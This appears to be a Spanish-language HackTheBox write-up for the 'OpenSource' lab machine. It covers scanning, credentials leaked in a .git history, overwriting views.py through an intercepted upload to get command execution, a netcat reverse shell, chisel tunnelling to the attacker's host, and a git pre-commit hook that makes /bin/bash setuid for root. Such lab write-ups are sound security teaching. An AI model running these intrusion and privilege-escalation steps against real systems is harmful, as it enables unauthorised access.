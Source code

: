 ```yaml
---
layout:   post
title:    "Write Up OpenSource. "
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,Burpsuite,pspy64,RCE,SSTI,XXE,Write-Up-Machine,Starting-Point] 
---
```

![list](/assets/img/opensource/opensource.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, 

utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.164 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/opensource/Parrot-SO3-2022-08-24-16-10-05.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,8080 -sV -sC 10.10.11.170 -oN target
```

El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


***

## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Ispeccionamos la web.

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo 

hacemos con wapalizzer o whatweb.


![list](/assets/img/opensource/Parrot-SO3-2022-08-24-16-07-07.png){:.lead width="800" height="100" loading="lazy"}

En una seccion de la web podemos cargar un archivo. 
{:.note}

Whatweb identificar tecnologuias atraves del terminal o wappalizer atraves de la web.

![list](/assets/img/opensource/Parrot-SO3-2022-08-24-16-06-20.png){:.lead width="800" height="100" loading="lazy"}

Nos descargamos el codigo fuente que encontramos al inspeccionar la web.

![list](/assets/img/opensource/1.png){:.lead width="800" height="100" loading="lazy"}

Descomprimimos el zip y encontramos que hay un directorio .git, y buscando entre branchs y 

commits encontramos credenciales.

![list](/assets/img/opensource/Kali-2022-08-25-16-22-37.png){:.lead width="800" height="100" loading="lazy"}

Encontramos una credencial `dev01:Soulless_Developer#2022`. 
{:.note}

Si seguimos mirando en app/app/ hay un archivo views.py que es el que almacena las funciones.

Guindonos por las funciones de arriba podemos definir nuestra propia función y agregarla al 

final para mas adelante subirla y ejecutar comandos.

![list](/assets/img/opensource/Parrot-SO3-2022-08-24-17-48-36.png){:.lead width="800" height="100" loading="lazy"}

De esta forma  podremos ver el /etc/host y tambien el /.ssh/id_rsa. 
{:.note}

Lo subimos desde `http://10.10.11.164/upload` pero interceptaremos con burpsuite y cambiaremos 

la ruta a `/app/app/views.py` para sobreescribir el actual de la máquina y damos a forward.

![list](/assets/img/opensource/Parrot-SO3-2022-08-24-18-54-52.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Si todo salió bien la función deberia de funcionar entonces nos haremos una reverse shell con 

`nc mkfifo`, urlencodeando lo que pueda dar problemas,levantamos un listener en el puerto 443.


Tenenos shell como root en un contenedor, pero ahora tenemos conexión con el puerto 3000 de la 

maquina real que veiamos filtered, asi que subiremos chisel y enviaremos el puerto a nuestro 

equipo local.

```bash
chisel server --reverse --port 8000
```

Esto en la maquina atacante.
{:.note}


```bash
./chisel client 10.10.16.31:8000 R:3000:172.17.0.1:3000
```

Esto en la maquina victima.
{:.note}

Si abrimos en el navegador el localhost en el puerto 3000 vemos un panel de gitea podemos 

usar las credenciales que encontramos al inicio `dev01:Soulless_Developer#2022`.

{:.note}
Ya como dev01 podemos ver un repositorio "home-backup" que tiene unas claves ssh que 

podemos probar para conectarnos.

![list](/assets/img/opensource/Kali-2022-08-25-16-37-32.png){:.lead width="800" height="100" loading="lazy"}

Buscamos la flag de en el escritorio.
{:.note}

***
## Explotacion

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles 

vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores 

podemos buscar los permisos con el comado find con el siguite comado.


En [gtfobins] vemos un ejemplo abusando del pre-commit, podemos intentarlo y después 

de un minuto nos convertimos en root.

[gtfobins]: https://gtfobins.github.io/gtfobins/git/

```bash
echo "chmod u+s /bin/bash" >> ~/.git/hooks/pre-commit
```

Le damos permiso setuid.
{:.note}

```bash
chmod +x !$
```

Le damos permisos de ejecucion.
{:.note}

```bash
bash -p
```

Ya somos root, buscamos la flag en el escritorio del root.
{:.note}

***

```shell
🎉 Felicitaciones ya has comprometido OpenSource de HackTheBox 🎉
```
{:.centered}
***
